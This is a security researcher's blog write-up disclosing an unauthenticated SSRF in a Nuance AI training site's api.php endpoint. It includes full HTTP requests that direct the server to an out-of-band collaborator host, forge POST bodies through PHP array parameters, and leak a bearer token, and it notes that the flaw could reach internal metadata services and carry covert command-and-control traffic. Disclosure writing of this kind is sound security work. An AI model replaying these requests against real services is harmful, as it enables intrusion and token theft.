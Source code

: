 ```yaml
---
title: "Unauth HTTP SSRF in Nuance Ai Training Platform"
date: 2024-12-02T11:30:37-05:00
draft: true
tags: ["nuance", "ssrf", "ai", "msrc"]
---
```


I submitted another HTTP SSRF in MS services via MSRC recently, this time within an insecure `api.php` endpoint I found on `train.digital.nuance.com`. 

This was a full HTTP SSRF, capable of interacting with internal services, could be used for both GET and POST requests, including sending full POST bodies with arbitrary parameter/value pairs. This SSRF was also CSRF-able, and also resulted exfiltration of user authentication tokens in the form of JWTs.

## Bounty?
None. A few weeks after submission, MS responded that they confirmed the bug, were investigating the issue, and asked for any more information I could provide. At this time I dug in a little bit more, finding the ability to submit full POST requests with bodies and arbitrary params. They didn't reply, and closed the case.

No "thank you", no "We've fixed it"... nothing, lol

![lame](image.png)

Anyway, here are the details.

## api.php

While performing some recon against MS infra, I came across an interesting site, `train.digital.nuance.com`, that appeared to be an online chat testing application. This app let users to connect to virtual "Agents" and interact with them and judging by the aptly named domain, it seemed likely this platform was intended to be used to train AI agents for Nuance, a Microsoft owned conversational AI.

Most of the traffic sent to the app were POSTs to an `api.php` endpoint, and contained several suspicious body params:
- `body`
- `domain`
- `endpoint`
- `params`, and
- `type`

Flipping the `domain` parameter to a burp collab server, the app sent the request and it turned out to be a full HTTP SSRF, response and everything. After playing with params the following PoC was reasonable enough to demonstrate some behavior.

![request-response](<Pasted image 20241027220537.png>)

Collab Receives:
![collab](<Pasted image 20241027220621.png>)

A few things about the request / responses above:
1. I changed the `endpoint`, `params`, and `type` values to see if those were sent too (they are) or modified the request method (they do)
2. The `token` parameter, a JWT, was automagically added by the app, no auth was actually needed
3. A POST is received by the collab (cool), but data in the `body` param wasn't sent... note that it was `{}` by default
4. The request was CSRF-able

I found it was also possible to interact with internal resources, such as VM metadata URLs, `http://169.254.169.254/xxx`. This could be inferred from application responses which included the error codes of the SSRF request itself should the SSRF fail, a useful mechanism for my purposes. Unfortunately, it wasn't possible to return data from the metadata URLs, as there wasn't a way to inject the required headers into the SSRF request (`metadata: true`). This, at least, provided some nice proof that interaction with local / internal resources was possible.

## Elevating the issue

One limitation of this bug remained the inability to forward POST bodies, even though the request method could be changed to a POST and an apparent `body` parameter was present. After trying a few more things, I recalled the server's response headers contained `X-Powered-By: PHP/7.3.33`. This clicked, and I sent a request with the `body` param of `body[]=test`-- an attempt to leverage PHP functionality known as "type-juggling":

```http
POST /api.php?tagserver/launch/agentAvailability HTTP/1.1
Host: train.digital.nuance.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 873

body[]=test&domain=176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com&endpoint=test_endpoint&params=test_param%3dtest_value&token=[...]&type=POST
```

and now, the collaborator received:
```http
POST /test_endpoint?test_param=test_value HTTP/1.1
Host: 176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer [...]
Content-Length: 6

0=test
```

Surprise! Data could be sent after all. This is great, but a POST body parameter named `0` is unlikely to be particularly useful.

I've used type juggling before, but I didn't know it's possible to create an array element with an arbitrary name using it. Meaning, it becomes possible to send something like `body[param]=value` and forge a request that sends a POST body of `param=value`:

Request:
```http
POST /api.php?tagserver/launch/agentAvailability HTTP/1.1
Host: train.digital.nuance.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 879

body[param]=value&domain=176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com&endpoint=test_endpoint&params=test_param%3dtest_value&token=[...]&type=POST
```

Collab receives:
```http
POST /test_endpoint?test_param=test_value HTTP/1.1
Host: 176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer [...]
Content-Length: 11

param=value
```

## Cool, right? 

This bug went from a simple HTTP SSRF to something much more, very quickly. To summarize, it let an attacker:

- Send and receive full HTTP requests to arbitrary destinations, including internal services
- Send both GET and POST methods, including arbitrarily provided URL and POST body parameters
- Exfiltrate data through the `body` and `token` parameters, resulting in requests routed through Microsoft infrastructure
    - This is also potentially very useful for C2, as traffic appears to be sent to legitimate Microsoft services

Even though Microsoft didn't provide any bounty for this issue, it was fun to see a full SSRF, something of a rareity these days. Also, a legitimate use for type juggling was fun to find, not sure I've ever used it in this fashion.

